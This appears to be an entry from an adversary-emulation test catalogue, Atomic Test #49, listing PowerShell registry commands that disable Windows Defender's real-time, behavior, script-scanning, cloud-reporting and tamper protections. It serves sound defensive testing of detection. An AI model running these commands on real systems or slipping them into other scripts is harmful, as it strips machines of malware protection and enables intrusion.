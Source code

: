 



<br/>
<br/>

## Atomic Test #49 - Tamper with Windows Defender Registry - Powershell
Disable Windows Defender by tampering with windows defender registry through powershell

**Supported Platforms:** Windows


**auto_generated_guid:** a72cfef8-d252-48b3-b292-635d332625c3






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiVirus" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableBehaviorMonitoring" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIntrusionPreventionSystem" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIOAVProtection" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableOnAccessProtection" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRealtimeMonitoring" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRoutinelyTakingAction" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScanOnRealtimeEnable" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScriptScanning" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Reporting" -Name "DisableEnhancedNotifications" -Value 1  
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\SpyNet" -Name "DisableBlockAtFirstSeen" -Value 1 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\SpyNet" -Name "SpynetReporting" -Value 0 
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\MpEngine" -Name "MpEnablePus" -Value 0 
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\App and Browser protection" -Name "DisallowExploitProtectionOverride" -Value 0 
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows Defender\Features" -Name "TamperProtection"  -Value 0 
Set-ItemProperty "HKLM:\software\microsoft\windows defender\spynet" -Name "SubmitSamplesConsent" -Value 0 
Set-ItemProperty "HKLM:\Software\Microsoft\Windows Defender" -Name "PUAProtection" -Value 0
```
